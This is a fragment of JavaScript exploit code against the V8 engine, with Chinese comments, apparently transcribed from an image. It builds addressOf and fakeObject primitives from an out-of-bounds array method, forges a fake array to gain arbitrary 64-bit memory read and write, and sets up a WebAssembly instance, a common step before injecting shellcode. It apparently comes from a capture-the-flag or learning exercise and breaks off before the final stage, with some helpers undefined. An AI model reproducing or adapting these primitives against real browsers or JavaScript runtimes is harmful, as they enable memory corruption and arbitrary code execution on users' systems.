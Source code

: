 ```assembly
// 64位无符号整数转为浮点数
function i2f(i){
    bigUint64[0] = i;
    return float64[0];
}
// 64位无符号整数转为16进制字节串
function hex(i){
    return i.toString(16).padStart(16, "0");
}

// 泄露某个object的地址
function addressOf(obj_to_leak){
    obj_array[0] = obj_to_leak;
    obj_array.oob(float_array_map);
    let obj_addr = f2i(obj_array[0]) - 1n;
    obj_array.oob(obj_array_map); // 还原array类型以便后续继续使用
    return obj_addr;
}

// 将某个addr强制转换为object对象
function fakeObject(addr_to_fake){
    float_array[0] = i2f(addr_to_fake + 1n);
    float_array.oob(obj_array_map);
    let faked_obj = float_array[0];
    float_array.oob(float_array_map); // 还原array类型以便后续继续使用
    return faked_obj;
}


var fake_array = [
    float_array_map,
    i2f(0n),
    i2f(0x41414141n),
    i2f(0x1000000000n),
    1.1,
    2.2,
];

var fake_array_addr = addressOf(fake_array);
var fake_object_addr = fake_array_addr - 0x40n + 0x10n;
var fake_object = fakeObject(fake_object_addr);

function read64(addr){
    fake_array[2] = i2f(addr - 0x10n + 0x1n);
    let leak_data = f2i(fake_object[0]);
    console.log("[*] leak from: 0x" +hex(addr) + ": 0x" + hex(leak_data));
    return leak_data;
}

function write64(addr, data){
    fake_array[2] = i2f(addr - 0x10n + 0x1n);
    fake_object[0] = i2f(data);
    console.log("[*] write to : 0x" +hex(addr) + ": 0x" + hex(data));    
}

var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;
```
